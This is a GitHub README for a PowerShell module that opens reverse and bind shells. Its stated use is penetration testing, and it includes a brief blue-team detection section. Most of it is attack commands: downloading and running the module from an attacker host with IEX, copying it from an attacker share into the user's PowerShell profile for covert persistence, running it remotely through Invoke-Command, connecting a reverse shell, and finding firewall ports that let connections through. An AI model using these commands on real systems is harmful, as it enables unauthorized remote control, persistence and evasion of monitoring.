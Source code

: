 # ReversePowerShell
#
NOW IN POWERSHELL GALLERY
Install-Module ReversePowerShell
#
#
Functions that can be used to gain Reverse Shells with PowerShell. Invoke-ReversePowerShell function can be used
to connect to Start-Listener as well as netcat and metasploit modules however it can not connect to Start-Bind.
I will add a tool for that in the future. This is a PowerShell module meaning it only contains functions/cmdlets to be imported into a PowerShell session. If you wish to execute one of the commands whenever the file is run just add the command you wish to execute to the bottom of the file.

#### BLUE TEAM DISCOVERY
Find-ReverseShell.ps1 can be used to search the Windows Event Log for when a Reverse Shell is created that uses a System.Net.Sockets.TcpListener object. This will discover any reverse shell that creates a TcpListener object and not just the below module. This method does not catch PowerCat.ps1 which I am still looking for a good way to discover. This part is still a work in progress.

#### WAYS TO INSTALL OR IMPORT THE MODULE
This is not a requirement. It just a way of saving the module to your device if you wish to keep it around for use at later times.
Install this module by placing the cloned folder "ReversePowerShell" inside the following directory location.
 "$env:USERPROFILE\\WindowsPowerShell\\Modules\\ReversePowerShell"
 For PowerShell Core v6 the location of this module will need to be
 "$env:USERPROFILE\\WindowsPowerShell\\ReversePowerShell"

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```
Or in cases where you want to import the module from whatever file you are in...
```powershell
Import-Module .\ReversePowerShell.psm1
```

If your are able to use Invoke-Expresion (IEX) this module can be imported using the following command.
You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.
```powershell
IEX (New-Object -TypeName Net.WebClient).downloadString("http://<attacker ipv4>/ReversePowerShell.psm1")
```

IEX is blocked from users in most cases and Import-Module is monitored by things such as ATP. Downloading files to a targerts machine is not always allowed in a penetration test. Another method to use is Invoke-Command. This can be done using the following format.
```powershell
Invoke-Command -ComputerName <target device> -FilePath .'\ReversePowerShell.ps1m' -Credential (Get-Credential)
```
This will execute the file and it's contents on the remote computer. 

Another sneaky method would be to have the function load at the start of a new PowerShell window. This can be done by editing the $PROFILE file.
```powershell
Write-Verbose "Creates powershell profile for user"
New-Item -Path $PROFILE -ItemType File -Force
#
# The $PROFILE VARIABLE IS EITHER GOING TO BE 
#    - C:\Users\<username>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
# OR
#    - C:\Users\<username>\OneDrive\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
#
# Write-Verbose "Turning this module into the PowerShell profile will import all of the commands everytime the executing user opens a PowerShell session. This means you will need to open a new powershell session after doing this in order to access the commands. I assume this can be done by just executing the "powershell" command though you may need to have a new window opened or new reverse/bind shell opened. You can also just reload the profile
cmd /c 'copy \\<attacker ip>\MyShare\ReversePowerShell.ps1 $env:USERPROFILE\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.psm1

powershell.exe
# If that does not work try reloading the user profile.
& $PROFILE
```

#### START BIND SHELL
The below command can be executed to start a bind shell that connects the defined port to PowerShell.
This command binds PowerShell to port 8088. I do not have a function that can connect to this. Netcat,
ncat, metasploit, and other tools can be used to connect to this bind shell. I will add a tool in the
future.
```powershell
Start-Bind -Port 8088
```

#### START LISTENER
The below command can be executed to start a listener on the Attack machine on port 8089. This can be
connected too using Invoke-ReversePowerShell as well as ncat, netcat, metasploit, and other tools.
The listener can be stopped or canceld by doing Ctrl + C.
```powershell
Start-Listener -Port 8089
```

#### ISSUE REVERSE SHELL CONNECTION
The below command is to be issued on the Target Machine to connect to the listener over
port 8089. This will not be able to complete a connection to the Start-Bind cmdlet.
If a connection failes a loop will be started that begins a 30 second visual countdown timer.
After 30 seconds the connection will attempt to re-establish the shell.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089
```
---
#### FIREWALL AND BLOCKED PORTS
If you are not able to gain a connection it is most likely due to the Windows Firewall. If you have access on a machine as a user you will not be able to make firewall changes. You need admin priviledges for that. Use the high range ports RPC would connect to or other common port. If a range has been defined you can find the allowed ports at "HKLM:\Software\Microsoft\Rpc\Internet\ with Entry name Data Type". Otherwise when not defined any ports between 49152-65535 might work.
This command may also display the port allowed RPC port range
```cmd
netsh int ipv4 show dynamicport tcp 
```

The following commands can be used to view firewall rules. If one of these does not work.
the other might.
```powershell
# This way should work to display the firewall even if you are a user
$FirewallRule = New-Object -ComObject HNetCfg.FwPolicy2
$FirewallRule.Rules | Select-Object -Property *

# OR
Get-NetFirewallRule | Where-Object { $_.Enabled –eq ‘True’ –and $_.Direction –eq ‘Inbound’ }
Show-NetFirewallRule

# OR
cmd /c netsh advfirewall firewall show rule name=all
```

#### VERIFY LISTENING PORTS
You can verify/view actively listening ports on the target computer by issuing the following command.
```powershell
Get-NetTcpConnection -State Listen
```
or if you are a command prompt kind of person;
```powershell
netstat -q
```
